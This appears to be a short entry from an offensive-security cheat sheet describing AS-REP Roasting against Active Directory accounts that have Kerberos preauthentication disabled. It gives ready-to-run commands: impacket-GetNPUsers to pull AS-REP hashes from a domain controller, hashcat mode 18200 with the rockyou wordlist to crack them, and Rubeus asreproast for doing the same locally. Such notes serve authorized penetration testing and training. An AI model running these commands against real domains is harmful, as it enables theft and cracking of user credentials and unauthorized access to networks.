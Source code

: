 # AS-REP Roasting

Targets user accounts in an Active Directory environment with the "Do not require Kerberos preauthentication" setting enabled. This allows us to target any known user without prior authentication.

Perform remotely with [GetNPUsers](../../14%20Impacket%20Tools/GetNPUsers.md)

```bash
impacket-GetNPUsers -request -dc-ip $IP -outputfile hashes.asreproast $DOMAIN/$USER
hashcat -m 18200 hashes.asreproast /usr/share/wordlists/rockyou.txt --force
```

Perform locally with [Rubeus](../0%20Tools/Local/Rubeus.md)

```
.\Rubeus.exe asreproast /nowrap
```
